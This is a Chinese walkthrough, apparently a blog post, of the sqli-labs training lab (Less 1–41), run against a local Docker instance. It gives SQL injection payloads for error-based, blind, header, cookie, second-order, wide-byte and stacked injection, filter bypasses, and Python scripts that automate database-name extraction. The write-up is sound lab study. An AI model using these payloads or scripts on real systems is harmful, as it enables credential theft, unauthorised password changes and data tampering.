










[TOC]


# sqli-lab 靶场实战

## 环境搭建

使用docker安装

```bash
docker pull acgpiano/sqli-labs 
```

运行

```bash
docker run --name sqli -p 80:80 -d acgpiano/sqli-labs
```

## 声明

这些less我会以过关为准，会比较简洁，然后再最后会附上自己写的一些脚本


## 一.basic challenges

### less-1（get-基于报错-单引号-字符型）

地址栏输入并在末尾加个单引号：

```
http://192.168.194.152/Less-1/?id=1'
```

直接报错



尝试`order by` 发现注释不是`#`，而是`-- `

```
id=1'order by 3-- 
```

此处可报错注入，注入以下sql语句以查看表名：

```
id=1' and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database())),1)-- 
```



然后获取users表的各列：

```
id=1'and updatexml(1,concat(0x7e,( select group_concat(column_name) from information_schema.columns where table_name='users')),1)-- 
```



然后获取各列的数据，一次一行，可以改变id查询：

```
id=1'and updatexml(1,concat(0x7e,( select group_concat(id,'/',username,'/',password) from users where id = 1)),1)-- 
```


### less-2（get-基于报错-整型）

整型意味着不用考虑闭合，也不用注释，直接上语句即可。




### less-3（get-基于报错-单引号加括号-字符型）

闭合为`')`




### less 4（get-基于报错-双引号加括号-字符型）

闭合为`")`



```
id=1' and updatexml(1,concat(0x7e,(select @@basedir )),1)-- 
```


### less 5（get-双查询注入-单引号-字符型）

双查询，其实就是两次连续的查询，第一次查询会生成一个临时表，第二次查询才能出现重复键错误（duplicate key）从而爆出想要的信息，这是mysql的一个bug

- count()：汇总数据函数

- rand()：随机输出一个小于1的正数

- floor()：把输出的结果取整

- group by语句：把结果分组输出

- concat()：连接两条语句

```sql
id=1' union select count(*), concat(version(),floor(rand(0)*2))x from information_schema.tables group by x;-- 
```



显然列数不对，因此增加一下select的列数即可

```sql
id=1' union select 1, count(*), concat(version(),floor(rand(0)*2))x from information_schema.tables group by x;-- 
```



### less 6（get-双查询注入-双引号-字符型）

就是把单引号替换为双引号即可

```sql
id=1" union select 1, count(*), concat(version(),floor(rand(0)*2))x from information_schema.tables group by x;-- 
```


### less 7（get-导出为文件-字符型）

less 7 php源码如下：

```php
$sql="SELECT * FROM users WHERE id=(('$id')) LIMIT 0,1";
```

先通过布尔盲注试探一下，结果发现：

```sql
id=1')) and 1=1-- 
```

上面这句正常执行，下面这句直接说有语法错误：

```sql
id=1')) and 1=2-- 
```

也就是说，它应该是执行了的，保险起见，再布尔盲注测试是否执行，最后会发现的确执行了

```sql
id=1'))and if(length(database())>1,sleep(5),1)-- 
```

因此构造注入语句如下(union使用时要注意select的列数要与原sql语句select的列数一致，这可以通过试得出)：

```sql
id=1')) union select 1,2,concat(username,password) from users into outfile '/var/lib/mysql/100.txt' -- 
```

可以看到该文件：




### less 8（get-布尔盲注-单引号）

通过布尔盲注可以判断当前数据库名的长度

```sql
id=1'and length(database())=7-- 
```



```sql
id=1'and length(database())=8-- 
```


显然当前数据库名（`security`）长度为8


### less 9（get-时间盲注-单引号）

如果数据库名的长度大于1，则mysql延迟5秒返回结果，呈现在网页上就是5秒后显示页面，在网页上表现为在加载。

```sql
id=1'and if(length(database())>1,sleep(5),1)-- 
```


### less 10（get-布尔盲注-双引号）

```sql
id=1"and if(length(database())>1,sleep(5),1)-- 
```


### less 11（post-基于报错-单引号-字符型）

使用burpsuite进行拦截并传递给repeater

经过测试可以发现用户名和密码都可以注入，构造以下`post payload`

```sql
uname=a' order by 4-- &passwd=b&submit=Submit
```

或者：

```sql
uname=a&passwd=b' order by 4-- &submit=Submit
```


### less 12（post-基于报错-双引号-字符型-带括号）

修改less 11的闭合为`")`


### less 13（post-双查询注入-单引号-字符型-带括号）

闭合为`')`

```sql
uname=Dumb')-- &passwd=&submit=Submit
```

**如果在知道某个用户的情况下，以上语句将直接导致无用户密码即可登录的情况**

### less 14（post-双查询注入-双单引号-字符型-带括号）

闭合为`"`，似乎没有带括号就可以闭合

```sql
uname=Dumb"-- &passwd=&submit=Submit
```


### less 15（post-布尔/时间盲注-单引号）

```sql
uname=a'or if(length(database())>1,sleep(5),1)-- &passwd=&submit=Submit
```


### less 16（post-布尔/时间盲注-双引号）

```sql
uname=a")or if(length(database())>1,sleep(5),1)-- &passwd=&submit=Submit
```


### less 17（post-更新查询-基于报错-字符型）

更新密码的sql语句是：

```sql
update users set password='123456' where username='admin'
```

经过测试发现password为注入点，经过注入后mysql会执行的语句为：

```sql
update users set password='123456' and (select extractvalue(1, concat(0x7e, (select md5(123456)), 0x7e))) where username='admin';-- ' where username='admin';
```

因此注入：

```sql
' and (select extractvalue(1, concat(0x7e, (select md5(123456)), 0x7e))) where username='admin';-- 
```


### less 18（post-Header注入-User-Agent-基于报错）

源码部分是这样的：

```php
$insert="INSERT INTO `security`.`uagents` (`uagent`, `ip_address`, `username`) VALUES ('$uagent', '$IP', $uname)";
mysql_query($insert);
```

执行一个插入的sql语句：

```sql
INSERT INTO `security`.`uagents` (`uagent`, `ip_address`, `username`) VALUES ('uagent', 'IP', 'uname');
```

那么需要在uagent处进行注入

```sql
' or extractvalue(1, concat(0x7e, md5(123456), 0x7e)))#
```

或者：

```sql
'||extractvalue(1, concat(0x7e,md5(123456), 0x7e)) ||'1'='1
```


### less 19（post-Header注入-Referer-基于报错）

在referer的末尾注入：

```sql
' or extractvalue(1, concat(0x7e, (select md5(123456)), 0x7e)))#
```


### less 20（post-Cookie注入-User-Agent-基于报错）

在burp找到正确的包，这个包里有cookie参数

在cookie末尾注入：

```sql
' and (select extractvalue(1, concat(0x7e, (select md5(123456)), 0x7e)))#
```


### less 21（post-dump into outfile-字符型）

与less20类似，不过cookie被进行了base64编码

```sql
admin') and (select extractvalue(1, concat(0x7e, (select md5(123456)), 0x7e)))#
```

进行base64编码：

```base64
YWRtaW4nKSBhbmQgKHNlbGVjdCBleHRyYWN0dmFsdWUoMSwgY29uY2F0KDB4N2UsIChzZWxlY3QgbWQ1KDEyMzQ1NikpLCAweDdlKSkpIw==
```

这里是想要获取敏感信息：

```
admin') into dumpfile '/test/6.txt' #
```

同样进行base64编码再向cookie末尾注入即可

```
YWRtaW4nKSBpbnRvIGR1bXBmaWxlICcvdGVzdC82LnR4dCcgIw==
```


## 二.Advanced Injection

### less 21 cookie注入-单引号加括号-base64

与less 21一样，闭合也是`')`，然后会进行base64编码


### less 22 cookie注入-双引号-base64

闭合是双引号，会进行base64编码

```sql
admin" and (select extractvalue(1, concat(0x7e, (select md5(123456)), 0x7e)))#
```

编码得到：

```
YWRtaW4iIGFuZCAoc2VsZWN0IGV4dHJhY3R2YWx1ZSgxLCBjb25jYXQoMHg3ZSwgKHNlbGVjdCBtZDUoMTIzNDU2KSksIDB4N2UpKSkj
```


### less 23 get-基于报错的无注释注入

其实就是注释都被过滤了，那么就不只要考虑前面的闭合，还要考虑后面的闭合

```sql
id=2' or extractvalue(1, concat(0x7e, (select md5(123456)), 0x7e)) or '1'='1
```


### less 24 post-二次注入

该关卡由一个登陆界面、修改密码界面和注册界面组成。检查源码发现，在登录、注册时会对用户的每一个可控参数进行`mysql_real_escape_string`转义（对特殊字符进行转义），但是在修改密码的时候没有对用户名做这种转义，这就导致越权，可以随意修改他人的密码。

1. 创建一个用户`admin'#`
2. 直接修改密码

源码部分是：

```sql
$sql = "UPDATE users SET PASSWORD='$pass' where username='$username' and password='$curr_pass' ";
```

由于未对`$username`使用`mysql_real_escape_string`转义，导致`admin'#`放入sql语句中形成二次注入实现了密码修改

同样的，注册一个用户`admin' or 1#`，然后修改密码，就会导致所有用户的密码都被修改为一个值。

注意，可能对用户名的长度有限制，所以不要注入太长的sql语句。


### less 25 get-or & and 被过滤

除了or和and被过滤

```sql
1' || extractvalue(1, concat(0x7e, (select md5(123456)), 0x7e)) || '1'='1
```

如果要使用注释，那么就需要url编码，

```sql
1' union select 1,2,exp(~(select * from  (select database()) a))%23
```

包括空格：

```sql
1' union select 1,2,exp(~(select * from%20 (select database()) a))--%20
```

### less 25a get-or & and 被过滤-盲注

发现为数字型，因此不需要考虑闭合

```sql
1&&length(database())=8
```

`&`需要url编码，因为在url中`&`有特殊含义:

```python
# -*- coding:utf-8 -*-
import requests
from urllib.parse import quote

# c = "(select group_concat(schema_name) a from (select schema_name from information_schema.schemata) b)"
c = "database()"

# 猜解数据库名长度
db_len = 0
for i in range(100):
    payload = "1&&length({})={}".format(c,i)
    url = "http://192.168.194.152/Less-25a/?id={}".format(quote(payload))

    response = requests.get(url)
    if response.text.rfind('Your Login name') >= 0:
        print('len(database)={}'.format(i))
        print(quote(payload))
        db_len = i
        break

# 猜解数据库名
db_name = ""
for i in range(db_len):
    find = 0
    for j in range(ord('a'), ord('z')):

        payload = "1&&substr({},{},1)='{}'".format(c, i + 1, chr(j))
        url = "http://192.168.194.152/Less-25a/?id={}".format(quote(payload))
        response = requests.get(url)
        if response.text.rfind('Your Login name') >= 0:
            find = 1
            db_name += chr(j)
            break
    for j in range(ord('A'), ord('Z')):
        if find == 1:
            break

        payload = "1&&substr({},{},1)='{}'".format(c, i + 1, chr(j))
        url = "http://192.168.194.152/Less-25a/?id={}".format(quote(payload))

        response = requests.get(url)
        if response.text.rfind('Your Login name') >= 0:
            db_name += chr(j)

    print(db_name)

```

本来想要一次性导出所有数据库名来着，但是or被过滤了，就导致`information_schema`变成了`infmation_schema`，而这个sqli版本的mysql（只有5.5）又没有视图可以替代，所以就只导出一下当前数据库了


### less 26 get-过滤空格和注释

注释被过滤，可以采用`||'1'='1`绕过，空格被过滤则可以加括号来绕过，比如下面的select语句

```sql
1'||extractvalue(1,concat(0x7e, (select(md5(123456))),0x7e))||'1'='1
```

union后面加括号是不行的，但是select可以，**即以下语句错误**：

```sql
1'||(union(select(1)))||'1'='1
```

**以下语句正确**：

```sql
1'||(select(1))||'1'='1
```

也可以用`%a0`替换空格进行绕过

```sql
1'||extractvalue(1,concat(0x7e, (select%a0md5(123456)),0x7e))||'1'='1
```


### less 26a get-基于盲注-过滤空格和注释-单引号-括号

​	找闭合：

```python
# -*- coding:utf-8 -*-
# 闭合字符串
import re
from urllib.parse import quote
import requests

close_char = ['\'', ')', '\"']

close_list = []
# 加入单个字符的闭合串
close_list.extend(close_char)

# 加入2个字符的闭合串
for i in close_char:
    for j in close_char:
        s = "{}{}".format(i, j)
        close_list.append(s)

# 加入3个字符的闭合串
for i in close_char:
    for j in close_char:
        for k in close_char:
            s = "{}{}{}".format(i, j, k)
            close_list.append(s)

print(close_list)

url = "http://192.168.194.152/Less-26a/?id=1"

response = requests.get(url=url)

for close in close_list:
    #求对称的闭合字符串
    re_close = re.sub('\)', '(', close[::-1])

    payload = "{}||{}1{}={}1".format(close, re_close,close,re_close)
    url = "http://192.168.194.152/Less-26a/?id=0"
    url = url + quote(payload)

    rs = requests.get(url=url)
    if rs.text.rfind('Your Login name')>=0:
        print("close:", close)
        print('payload:', payload)
        print("url:", url)
```

发现闭合为：

```
close: '
payload: '||'1'='1
url: http://192.168.194.152/Less-26a/?id=0%27%7C%7C%271%27%3D%271

close: ')
payload: ')||('1')=('1
url: http://192.168.194.152/Less-26a/?id=0%27%29%7C%7C%28%271%27%29%3D%28%271

close: '""
payload: '""||""'1'""=""'1
url: http://192.168.194.152/Less-26a/?id=0%27%22%22%7C%7C%22%22%271%27%22%22%3D%22%22%271
```

可以尝试联合查询，需要注意的是上面的闭合只有`')`可以使用，这也可以使用脚本完成：

```python
# -*- coding:utf-8 -*-
# 闭合字符串
import re
from urllib.parse import quote
import requests

close_char = ['\'', ')', '\"']

close_list = []
# 加入单个字符的闭合串
close_list.extend(close_char)

# 加入2个字符的闭合串
for i in close_char:
    for j in close_char:
        s = "{}{}".format(i, j)
        close_list.append(s)

# 加入3个字符的闭合串
for i in close_char:
    for j in close_char:
        for k in close_char:
            s = "{}{}{}".format(i, j, k)
            close_list.append(s)

print(close_list)


for close in close_list:
    #求对称的闭合字符串
    re_close = re.sub('\)', '(', close[::-1])

    payload = "{}||{}1{}={}1".format(close, re_close,close,re_close)
    url = "http://192.168.194.152/Less-26a/?id=0"
    new_url = url + quote(payload)

    rs = requests.get(url=new_url)
    if rs.text.rfind('Your Login name')>=0:
        payload = "{}%a0union%a0select%a01,md5(123456),3%a0||%a0%271%27={}1".format(close, re_close)
        new_url = url + payload
        rs = requests.get(url=new_url)
        if rs.text.rfind('e10adc3949ba59abbe56e057f20f883e')>=0:
            print("close:", close)
            print('payload:', payload)
            print("url:", url)

```

最后得到payload为：

```sql
0')%a0union%a0select%a01,md5(123456),3%a0||%a0%271%27=('1
```

### less 27 get-过滤select和union

在less 25和less 26的基础上过滤select和union

```sql
1'||extractvalue(1,concat(0x7e, (substring(md5(123456),1)),0x7e))||'1'='1
```

可以使用substring等字符串处理函数替代select，或者直接像下面这样不要select：

```sql
1'||extractvalue(1,concat(0x7e, md5(123456),0x7e))||'1'='1
```

由于对union和select的过滤不够完全，所以可以大小写绕过，由于id=0的用户不存在，所以联合查询的结果会出现在页面上：

```sql
0'%a0UNion%a0seLect%a01,database(),3%a0or%a0'1'='1
```


### less 28 get-闭合为单引号加括号，过滤union和select

在less27的基础上修改了闭合为`')`，而且关闭了回显，因此就不考虑报错注入了，可以考虑布尔盲注，写一个简单的脚本爆破正在使用的数据库名：

```sql
# -*- coding:utf-8 -*-
import requests
from urllib.parse import quote

# 猜解数据库名长度
db_len = 0
for i in range(30):
    payload = "1')&&length(database())={}&&'1'=('1".format(i)
    url = "http://192.168.194.152/Less-28/?id={}".format(quote(payload))

    response = requests.get(url)
    if response.text.rfind('Login name:Dumb') >= 0:
        print('len(database)={}'.format(i))
        print(quote(payload))
        db_len = i
        break

# 猜解数据库名
db_name = ""
for i in range(db_len):
    find = 0
    for j in range(ord('a'), ord('z')):
        payload = "1')&&substr(database(),{},1)='{}'&&'1'=('1".format(i + 1, chr(j))
        url = "http://192.168.194.152/Less-28/?id={}".format(quote(payload))

        response = requests.get(url)
        if response.text.rfind('Login name:Dumb') >= 0:
            find=1
            db_name += chr(j)
    for j in range(ord('A'), ord('Z')):
        if find==1:
            break
        payload = "1')&&substr(database(),{},1)='{}'&&'1'=('1".format(i + 1, chr(j))
        url = "http://192.168.194.152/Less-28/?id={}".format(quote(payload))

        response = requests.get(url)
        if response.text.rfind('Login name:Dumb') >= 0:
            db_name += chr(j)

    print(db_name)

```

也可以考虑联合查询，因为过滤union时依旧不完备，

```sql
0')%a0union%a0select%a01,database(),3%a0or%a0'1'=('1 
```

即出现结果:

`Your Login name:security
Your Password:1`


### less 28a get-盲注-闭合为单引号加括号，过滤union和select

这里的盲注仍然无法抵挡less 28的联合查询，因为它只是把正常显示的信息做了替换而已，所以仍可以：

```
0')%a0union%a0select%a01,database(),3%a0or%a0'1'=('1 
```

还可以编写脚本爆破数据库名，闭合仍是`')`


### less 29 get-报错注入-WAF

访问的链接为：http://192.168.194.152/Less-29/login.php?id=1

查看源码发现对id做了白名单限制，要求只能输入数字，但是看到其针对http参数污染的处理是：只对第一个遇到的参数id做限制，因此输入id=1&id=2尝试就会发现实际取的id=2，这种解析顺序和使用何种web容器有关，这里是php/apache，所以取第二个id

通过脚本（见文章末尾）可以得到以下payload：

```sql
1&id=0'""||updatexml(1,concat(0x7e,(select md5(123456))),0x7e)||""'1'""=""'1
```


### less 30 get-盲注-WAF

其实就是less 29关闭了回显，其他处理方式不变，payload为：

```sql
1&id=1"&&substr(database(),1,1)='s'&&"1"="1
```


### less 31 get-盲注-WAF

和less 29的源码一模一样

### less 32 get-绕过addslashes

源码中实现了一个与`addslashes`**类似的函数**，会将所有的转义字符、单引号和双引号转义，并且使用以下语句设置了编码为gbk：

```php
mysql_query("SET NAMES gbk");
```

因此可以使用宽字节绕过，需要注意的是，payload模板不能是：

```sql
1' or '1'='1
```

因为在每一个`'`前加上一个`%df`后一定会在or附近产生sql语法错误，因此只能采用以下模板

```sql
1' or 1#
```

即：

```
1%df%27%20or%201%23
```

由此可以进行报错注入：

```sql
1'||polygon((select * from (select * from (select md5(123456) a) b)c))#
```

url编码后得到：

```
1%df%27%7C%7Cpolygon%28%28select%20%2A%20from%20%28select%20%2A%20from%20%28select%20md5%28123456%29%20a%29%20b%29c%29%29%23
```


### less 33 get-绕过addslashes()

相比less 32，这里对更多的特殊字符进行转义，尽可能少地使用特殊字符以及借助宽字节完成绕过

less 32的payload仍然可以成功：

```
1%df%27%7C%7Cpolygon%28%28select%20%2A%20from%20%28select%20%2A%20from%20%28select%20md5%28123456%29%20a%29%20b%29c%29%29%23
```

 

### less 34 post-绕过addslashes()

less 33的post版本，因此仍然要使用宽字节注入

post提交的数据为：

```
uname=admin&passwd=admin&submit=Submit
```

寻找闭合，发现为`'`：

```
uname=a%df%27%20or%201%23&passwd=admin&submit=Submit
```

然后修改请求的数据为：

```
uname=a%df%27%7C%7Cpolygon%28%28select%20%2A%20from%20%28select%20%2A%20from%20%28select%20md5%28123456%29%20a%29%20b%29c%29%29%23&passwd=admin&submit=Submit
```

将成功报错

### less 35 get-绕过addslashes

和less 32的核心源码一样


### less 36 get-绕过 MySQL_real_escape_string

payload为：

```
id=1%df%27%7C%7Cpolygon%28%28select%20%2A%20from%20%28select%20%2A%20from%20%28select%20md5%28123456%29%20a%29%20b%29c%29%29%23
```


### less 37 post-绕过 MySQL_real_escape_string

payload为：

```
uname=a%df%27%7C%7Cpolygon%28%28select%20%2A%20from%20%28select%20%2A%20from%20%28select%20md5%28123456%29%20a%29%20b%29c%29%29%23&passwd=admin&submit=Submit
```


## 三.Stacked Injection


### less 38 字符型

1. 找闭合，闭合为`'`
2. 使用`;`强行结束上一条sql语句
3. 放要执行的命令

pyaload为：

```
1';CREATE TABLE Persons(PersonID int,LastName varchar(255),FirstName varchar(255),Address varchar(255),City varchar(255))%23
```

使用后会发现security数据库中会多一个Persons表


### less 39 数字型

```
1;CREATE TABLE Persons(PersonID int,LastName varchar(255),FirstName varchar(255),Address varchar(255),City varchar(255))%23
```


### less 40 布尔注入-字符型

```
1');CREATE TABLE Persons(PersonID int,LastName varchar(255),FirstName varchar(255),Address varchar(255),City varchar(255))%23
```

注意，堆叠查询相当于远程sql执行，它不会有任何特征的会显，包括报错信息、布尔盲注判断、时间盲注判断

题目为布尔-字符型-堆叠查询，那么这里的布尔大概就是普通的布尔注入


### less 41 布尔注入-数字型

```
1;CREATE TABLE Persons(PersonID int,LastName varchar(255),FirstName varchar(255),Address varchar(255),City varchar(255))%23
```


## 四.Challenges


## 脚本

前面写的脚本过于杂乱，因此在最后补充自己写的脚本（爆破数据库名）

### 布尔盲注脚本

```python
# -*- coding:utf-8 -*-
# 闭合字符串
import re
from urllib.parse import quote
import requests

close_char = ['', '\'', ')', '\"']

close_list = []
# 加入单个字符的闭合串
close_list.extend(close_char)
# 加入2个字符的闭合串
for i in close_char:
    for j in close_char:
        s = "{}{}".format(i, j)
        close_list.append(s)

# 加入3个字符的闭合串
for i in close_char:
    for j in close_char:
        for k in close_char:
            s = "{}{}{}".format(i, j, k)
            close_list.append(s)

# 当需要对除字母以外的字符进行爆破时就需要在此添加那个字符
char_list = [i for i in list(range(ord('a'), ord('z'))) + list(range(ord('A'), ord('Z')))]

# 数据库名长度
db_len = 0

# 未添加payload的url
url = "http://192.168.194.152/Less-29/?id="

# 证明漏洞存在的字符串
characteristic_string = "Your Login name"

# 布尔盲注payload模板
payload0 = "0{}||{}1{}={}1"  # 判断字符串闭合
# payload0 = "1{}&&{}1{}={}1"


payload1 = "0{}||length(database())={}||{}1{}={}2"  # 判断数据库长度
# payload1 = "1{}&&length(database())={}&&{}1{}={}1"

# payload2 = "0{}||substr(database(),{},1)='{}'||{}1{}={}2"  # 判断数据库单个字符
payload2 = "1{}&&substr(database(),{},1)='{}'&&{}1{}={}1"


for close in close_list:
    # 求对称的闭合字符串
    re_close = re.sub('\)', '(', close[::-1])

    payload = payload0.format(close, re_close, close, re_close)

    new_url = url + quote(payload)
    response = requests.get(url=new_url)
    if response.text.rfind(characteristic_string) >= 0:
        print("close and re_close:", close, re_close)
        print("payload", payload)
        for i in range(100):
            # payload = "0{}||length(database())={}||{}1{}={}2".format(close, i, re_close, close, re_close)
            payload = payload1.format(close, i, re_close, close, re_close)

            new_url = url + "{}".format(quote(payload))
            response = requests.get(new_url)
            if response.text.rfind(characteristic_string) >= 0:
                print('len(database)={}'.format(i))
                print("payload:", payload)
                db_len = i
                break

    db_name = ""

    for i in range(db_len):
        for j in char_list:
            payload = payload2.format(close, i + 1, chr(j), re_close, close, re_close)
            new_url = url + quote(payload)
            response = requests.get(new_url)
            if response.text.rfind(characteristic_string) >= 0:
                db_name += chr(j)
                print("payload", payload)
                break
    if db_name != "":
        print("db_name:", db_name)
        break

```

### 报错注入脚本

```python
# -*- coding:utf-8 -*-
# 闭合字符串
import re
from urllib.parse import quote
import requests
from hashlib import md5

close_char = ['', '\'', ')', '\"']

close_list = []
# 加入单个字符的闭合串
close_list.extend(close_char)

# 当需要对除字母以外的字符进行爆破时就需要在此添加那个字符
char_list = [i for i in list(range(ord('a'), ord('z'))) + list(range(ord('A'), ord('Z')))]

# 数据库名长度
db_len = 0

# 未添加payload的url
url = "http://192.168.194.152/Less-29/login.php?id=1&id="

# 证明漏洞存在的字符串
characteristic_string = "Your Login name"

# 布尔盲注payload模板
payload0 = "0{}||{}1{}={}1"  # 判断字符串闭合
# payload0 = "1{}&&{}1{}={}1"

# 报错注入语句

# payload1 = "0{}||polygon((select * from (select * from (select md5(123456) a) b)c))||{}1{}={}1"
# payload1 = "0{}||extractvalue(1,concat(0x7e,(select md5(123456)),','))||{}1{}={}1"
payload1 = "0{}||updatexml(1,concat(0x7e,(select md5(123456))),0x7e)||{}1{}={}1"
# payload1 = "0{}||(select exp(~(select * from (select md5(123456)) a)))||{}1{}={}1"
# payload1 = "0{}||(select power(2, ~(select * from  (select md5(123456)) a)))||{}1{}={}1"
# payload1 = "0{}||(select pow(2, ~(select * from (select md5(123456)) a)))||{}1{}={}1"
# payload1 = "0{}||(select a from (select count(*) a, concat(md5(123456),floor(rand(0)*2))x from information_schema.tables group by x)b)||{}1{}={}1"

# md5加密
m = md5()
m.update("123456".encode())

# 加入2个字符的闭合串
for i in close_char:
    for j in close_char:
        s = "{}{}".format(i, j)
        close_list.append(s)

# 加入3个字符的闭合串
for i in close_char:
    for j in close_char:
        for k in close_char:
            s = "{}{}{}".format(i, j, k)
            close_list.append(s)

for close in close_list:
    # 求对称的闭合字符串
    re_close = re.sub('\)', '(', close[::-1])

    payload = payload0.format(close, re_close, close, re_close)

    new_url = url + quote(payload)
    response = requests.get(url=new_url)
    if response.text.rfind(characteristic_string) >= 0:
        print("close and re_close:", close, ':', re_close)
        print("payload", payload)

        payload = payload1.format(close, re_close, close, re_close)
        new_url = url + quote(payload)
        print(len(new_url))

        # print(new_url)
        response = requests.get(url=new_url)
        # print(m.hexdigest())
        # updatexml和extractvalue对md5计算出的字符串长度有限制，最后一个字符会无法回显，所以这里截取一下
        if response.text.rfind(m.hexdigest()[:30]) >= 0:
            print("payload", payload)
            print("url", new_url)

```


## 报错

### Illegal mix of collations (latin1_swedish_ci,IMPLICIT) and (gbk_chinese_ci,COERCIBLE) for operation '='

出现了两种不同的字符集，这是在less 34遇到的问题，原因是结果集中出现了两种不同的编码

查看编码：

```sql
SHOW VARIABLES LIKE 'collation_%'; 
```

然后设置以下字符集：

```sql
SET character_set_database =utf8;
 
SET character_set_results =utf8;
 
SET character_set_server =utf8;
 
SET character_set_system =utf8;
 
SET collation_server = utf8_general_ci;
 
SET collation_database = utf8_general_ci;
```

如果还不行就再设置查询的表的编码：

```sql
alter table users convert to character set utf8;
```


## 总结：

sql注入按数据类型可分为字符型和数字型，前者需要找闭合，后者则不必。

在进行布尔盲注的时候，分为两种：

- `id=-99999 or 1=1`
- `id=1 and 1=1`

考虑闭合且不使用注释就是（闭合字符不一定是`'`，这可以fuzz出）：

- `id=-99999' or '1'='1`
- `id=1' and '1'='1`

如果使用注释就是（注释同样很多种，也同样可以fuzz出，当不想要后面的sql语句时就需要使用注释，注意，在地址栏中`#`需要url编码）：

- `id=-99999' or 1#`
- `id=1' and 1#`

知道了以上这些后，无论使用何种注入手法，在哪个位置去注入，都万变不离其宗，

之后就需要考虑如何bypass，bypass大致分为：

1. 编码bypass
2. http参数污染
3. 关键字绕过

编码bypass大致有以下几种：

- url全编码：常见于`&`、`#`在地址栏处有其特殊含义，故而需要编码

- Latin1编码：mysql表的编码默认是**latin1**，如果设置字符集为utf8，在注入时使用utf8有而Latin1没有的字符，Mysql会直接忽略这个字符，这就会导致**mysql表任意修改**。

  比如修改用户密码，知道用户名，然后在用户名末尾注入一些字符，然后Mysql会认为要往表中添加新记录，但实际上并没有，这些字符被忽略且一旦添加成功就会修改用户的信息

  注入的字符范围在`%c2-%ef`

- hex编码：

- 宽字节：

- base64编码：

http参数污染取决于添加的相同参数不会被检查，这和web容器的解析顺序相关，不同web容器拥有不同的解析顺序，不论是后端还是waf，当他们没有做与web容器适配的检查时都会导致bypass。

我认为关键字绕过大致有以下几种：

- 大小写、双写绕过
- 使用生僻的函数
- 对特殊字符或关键字进行替换

能够使用关键字取决于目标是不是使用黑名单策略来进行过滤，其实部分编码绕过本质上也是关键字绕过。

另外，fuzz出的闭合字符串和注释其实也是一种bypass